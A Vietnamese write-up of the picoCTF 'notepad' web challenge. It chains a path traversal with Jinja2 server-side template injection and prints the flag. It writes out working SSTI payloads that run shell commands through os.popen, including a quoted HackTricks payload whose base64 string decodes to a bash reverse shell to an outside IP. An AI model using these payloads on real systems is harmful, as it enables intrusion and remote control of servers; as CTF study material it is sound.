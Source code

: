 # Overview #
- Points : 100
- Tags : `Web Exploitation`.
# Description #
This note-taking site seems a bit off.  https://notepad.mars.picoctf.net/

src: https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar
# Observe #
![image](https://github.com/Aowpu/CTF/assets/130723782/3a2a539d-fb32-400d-bae1-0a81b6b60bc5)
- Mã trên tạo một ứng dụng Flask cho phép bạn nhập nội dung và tạo ra các trang web tĩnh.
Nó kiểm tra nội dung đã nhập và sau đó tạo một tệp HTML tương ứng để hiển thị nội dung. 

![image](https://github.com/Aowpu/CTF/assets/130723782/65f6f399-7e9d-4921-9916-f6a246f869b7)
- Tệp index.html cho thấy thấy rằng nó sẽ hiện ra lỗi nếu có nên tôi đã thử cho error là 1 thứ gì đó bất kì
  
![image](https://github.com/Aowpu/CTF/assets/130723782/ab45f4b9-aee2-460f-aa8e-1e05ef4cced5)

![image](https://github.com/Aowpu/CTF/assets/130723782/5fea4dff-f48f-4915-821a-a6d5551bc0d7)
- Trong đoạn code trên có thể thấy nó đã tạo tệp name, tên của tệp là 128 kí tự đầu tiên của nội dung và mã thông báo ngẫu nhiên
- Có một điều rằng chúng ta có thể dựa trên url_fix(content[:128]) cho thấy khi tìm kiếm thì url_fix sẽ biến \ thành / mà ở trong
điều kiện không hề cấm điều này. Chúng ta có thể sử dụng điều này để duyệt qua hệ thống tập tin.
# Attack #
- Mình đã nghĩ đến lỗ hổng SSTI vì kiểm tra dữ liệu đầu vào ở đây không nghiêm ngặt
- Chúng ta có thể tạo mẫu lỗi của riêng mình bằng cách sử dụng kỹ thuật truyền tải đường dẫn để tạo một tệp trong thư templates/errors
  ![image](https://github.com/Aowpu/CTF/assets/130723782/079c3739-77c7-404a-93f5-052175a0da00)
- Sau khi gửi nó đã hiện ra not found bởi vì chúng ta đã ghi vào một tệp bên ngoài thư mục tĩnh nên không thể truy cập bằng /static/...
- Tuy nhiên, chúng ta có thể kiểm tra payload bằng cách chuyển tên tệp vào phần error
  ![image](https://github.com/Aowpu/CTF/assets/130723782/2754cf1e-4b42-4938-9797-780ad7e1056c)
- Payload đã được in lại
- Chúng ta có thể sử dụng SSTI(Sever-side template injection) để truy xuất cờ.
- Tôi đã tìm thấy bài viết trong hacktricks ( https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti ) về cách khai thác lỗ hổng SSTI này ở bài Jinja2 SSTI và câu lệnh dùng để injection vào hệ thống
- "{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}"
- Sau khi đọc dòng lệnh trên tôi đã thay đổi 1 số chỗ để phù hợp với bài này, đoạn mã hóa base 64 ở câu lệnh trên tôi sẽ đổi nó bởi vì theo Dockerfile được cung cấp cho thấy tệp chứa cờ nằm trong thư mục gốc của UUID ngẫu nhiên.
Vì vậy chùng ta cần tìm tên file của lá cờ
- Chúng ta sẽ sửa đoạn base 64 thành "ls /app" sau đó mã hóa b64 bởi vì thứ chúng ta muốn echo bây giờ là file của lá cờ trong thư mục app
- Đoạn mã sẽ injection vào là
  " {% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n bHMgL2FwcA== | base64 -d | bash")["read"]() %} {{a}} {% endwith %} "
-  Vì tên tệp nó sẽ lấy 128 kí tự đầu do dùng câu lệnh url_fix(content[:128]) nên chúng ta sẽ chèn sao cho đủ 128 kí tự ở đầu cho đầy để không phần nào của injection được lưu vào tên của file
-  Sau khi gửi câu lệnh
-  ![image](https://github.com/Aowpu/CTF/assets/130723782/0fdd859f-12cc-41d9-b981-6eeaecfadcf7)
- Nó đã trả về tên tệp trên thanh tìm kiếm
- Thực hiện các bước chèn tên tệp vào sau error chúng ta đã tìm file chứa flag
     ![image](https://github.com/Aowpu/CTF/assets/130723782/af0cb711-02ec-47e7-a3ea-5cf0041a28b7)
- Sau đó chúng ta cat file đó ra bằng cách lại thay đoạn mã hóa base 64 trong câu lệnh injection trên bằng câu lệnh "cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt"
  và rồi thực hiện lại các bước trên để hiện ra flag
![image](https://github.com/Aowpu/CTF/assets/130723782/a7f7176d-a611-40da-ba31-2d1dcb7fbf91)
# Flag: picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n} #
